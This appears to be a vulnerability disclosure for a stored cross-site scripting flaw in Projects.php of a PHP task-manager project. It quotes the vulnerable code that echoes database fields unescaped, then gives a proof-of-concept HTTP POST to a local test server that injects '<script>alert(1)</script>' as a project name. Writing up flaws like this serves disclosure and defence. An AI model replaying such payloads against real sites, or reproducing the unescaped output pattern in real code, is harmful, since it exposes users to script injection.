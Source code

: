 # task-manager-in-php has Cross Site Scripting vulnerability in Projects.php

## supplier 
https://code-projects.org/task-manager-in-php-with-source-code/
## Vulnerability file
Projects.php

## describe
In Projects.php, there are unrestricted cross site scripting attacks and injection attacks in the task-manager-in-php-with-source-code. The controllable parameters are as follows: $row['projectName'] parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

Querying data from the database and storing it in the projectName, and the echo $row['projectName'] is not filtered, resulting in the execution of XSS statements.

code in Projects.php from line48-line87

```
<center> Your current tasks 
<table height = "50" border = "1" class="task">
<tr> <th>Project Name</th> <th>Task Name</th> <th>Start Date</th> <th>Due Date</th> <th>Priority</th> <th>Done</th> <th>Delete</th><th> Edit </th><th> Show Notes </th> </tr>
	<?php
		$sql = "SELECT tasks.*,project.projectName FROM tasks,project WHERE project.projectID = tasks.projectID";
		$result = $conn ->query($sql);
		while($row = $result ->fetch_assoc())
		{
			$colour = "";
			$date = strtotime($row['taskDueDate']);
			$date = date('Y/m/d',$date);
			$current_date = date("Y/m/d");
			if($row['taskDone'] == "no"){
				if(isset($row['taskDueDate']))
				{ 
					if ($current_date > $date){
						$colour = "#ff6060";
					}
				}
			}
			
			if($row['taskDone']== "yes"){
				if(isset($row['taskDueDate'])){
					if($current_date <= $date){
						$colour = "#60ff6e";
					}
				}
			}
			
			echo "<tr style = 'background-color :", $colour,"'><td>",$row['projectName'], '</td><td>', $row['taskName'], '</td><td>', $row['taskStartDate'], '</td><td>', $row['taskDueDate'], '</td><td>', $row['taskPriority'], '</td>',"
			<td><a class = 'table1' href='Task.php?done=1&taskID=",$row["taskID"],"'>&#10004</a></td>
			<td><a class = 'table1' href='Task.php?delete=1&taskID=",$row["taskID"],"'>&#10006</a></td>
			<td><a class = 'table1' href='EditTask.php?edit=1&taskID=",$row["taskID"],"'>Edit</a></td>
			<td> <button id='notesButton-",$row['taskID'],"' onClick =\"showNotes('",$row['taskID'],"')\"'>Show Notes </button> </td>
			</tr>
			<tr class='notes'>
			<td colspan=\"8\" style='display:none;' id='notes-",$row['taskID'],"'><hr>",$row['notes'],"<hr></td>
			</tr>";	
		}
	?>
```
the echo in line 48 is not filtered



## POC

```
POST /newProject.php HTTP/1.1
Host: localhost:8081
Content-Length: 86
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/Projects.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

projectName=<script>alert(1)</script>&priority=Medium&createProject=%E6%8F%90%E4%BA%A4
```

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://localhost:8081/Projects.php
```



**Result**

![image-20241126221600209](https://github.com/LamentXU123/cve/blob/main/assest/xss2.png)
